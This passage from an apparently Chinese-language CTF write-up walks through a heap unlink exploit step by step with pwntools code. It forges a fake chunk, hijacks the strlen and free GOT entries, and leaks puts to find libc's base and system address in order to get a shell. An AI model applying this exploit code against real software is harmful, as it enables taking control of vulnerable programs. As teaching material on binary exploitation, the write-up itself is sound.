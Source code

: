    ```python
   prve_size = 0x20
   next_size = 0x90
   payload2 = p64(0) + p64(size) + content + p64(prve_size)+p64(next_size)
   edit(2,payload2)
   #触发unlink
   free(3)
   ```

   ![image-20240718121642587](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407181216699.png)

2. 创建傀儡chunk，chunk4作为傀儡：

   ```python
   #利用unlink，创造傀儡chunk4，通过chunk2控制傀儡
   new_addr = 0x602160
   payload2 = p64(0)*3 + p64(new_addr)
   edit(2,payload2)
   ```

   ![image-20240718121952215](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407181219321.png)

3. 利用傀儡，hook掉strlen函数，指向puts函数的plt表：

   ```python
   #利用傀儡，先用puts函数hook掉strlen函数
   payload2 = p64(elf.got["strlen"])     #写入strlen函数的got表
   edit(2,payload2)
   
   payload4 = p64(elf.plt["puts"])       #修改strlen函数的got表
   edit(4,payload4)
   ```

   ![image-20240718122215835](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407181222962.png)

4. 继续利用傀儡，泄漏puts函数的got表，从而获取libc基地址：

   ```python
   #利用傀儡，泄漏puts函数的got表，泄漏libc基地址
   payload2 = p64(elf.got["puts"])     #写入puts函数的got表
   edit(2,payload2)
   
   show(4)     #输出puts函数got表的内容
   #获取libc基地址
   puts_addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   libc_base = puts_addr - libc.symbols['puts']
   sys_addr = libc_base + libc.symbols['system']
   success("puts_addr==>"+hex(puts_addr))
   success("libc_addr==>"+hex(libc_base))
   success("system_addr==>"+hex(sys_addr))
   ```

   ![image-20240718122440300](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407181224472.png)

5. 继续利用傀儡，hook掉free函数的got表，改为system函数地址，最后free掉chunk5即可getshell:
